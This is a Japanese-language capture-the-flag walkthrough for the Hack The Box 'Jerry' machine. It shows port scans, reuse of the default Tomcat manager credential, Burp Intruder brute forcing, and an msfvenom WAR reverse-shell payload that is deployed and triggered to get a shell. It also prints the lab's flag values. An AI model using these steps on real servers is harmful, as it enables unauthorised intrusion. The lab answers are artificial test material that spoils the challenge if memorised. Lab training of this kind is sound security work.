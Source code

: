 https://app.hackthebox.com/machines/Jerry
## STEP 1
tcp8080番がオープン  
また、有効なデフォルトクレデンシャルを発見した
```sh
└─$ rustscan -a 10.129.136.9 --no-banner --scripts none
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.129.136.9:8080
10.129.136.9 -> [8080]
```
```sh
└─$ nmap -n -Pn -p8080 -sV --script=http-default-accounts 10.129.136.9
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-25 10:47 EDT
Nmap scan report for 10.129.136.9
Host is up (0.32s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
| http-default-accounts: 
|   [Apache Tomcat] at /manager/html/
|_    tomcat:s3cret
|_http-server-header: Apache-Coyote/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.50 seconds
```

## STEP 2
8080番にアクセス  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Jerry_01.png">
サイト右上の「manager app」をクリックするとbasic認証が要求される  
nmapの結果から確認できるデフォルトクレデンシャルでログインできた  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Jerry_02.png">  
いちお`burp suite`でもブルートフォースをやってみる  
basic認証を使用しているので、クレデンシャルがbase64でエンコードされてる  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Jerry_03.png">
burp suiteのproxyで確認できる通信を、intruderでいじる  
「payload configuration」にリストをpasteし、「payload proccessing」の「base64-encode」で各クレデンシャルをエンコード
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Jerry_04.png">  
「start attacks」で攻撃を開始すると、httpステータスコード200のクレデンシャルを確認できる  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Jerry_05.png">


## STEP 3
「manager app」にログイン  
warファイルをdeployできるので、war形式のペイロードをアップロードする  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Jerry_06.png">  
war形式のペイロード作成
```sh
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=4444 -f war -o shell.war
Payload size: 1088 bytes
Final size of war file: 1088 bytes
Saved as: shell.war
```
ペイロードをデプロイ  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Jerry_07.png">  
デプロイしたペイロードが追加されていることがわかる  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Jerry_08.png">  
デプロイしたペイロードにhttpアクセスして、ペイロードを実行
```sh
└─$ curl http://10.129.136.91:8080/shell/
```
リバースシェル取得  
```sh
└─$ rlwrap nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.175] from (UNKNOWN) [10.129.136.9] 49153
Microsoft Windows [Version 6.3.9600
(c) 2013 Microsoft Corporation.  All rights reserved.

c:\apache-tomcat-7.0.88>cat 'C:\Users\administrator\desktop\flags\2 for the price of 1.txt'
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```
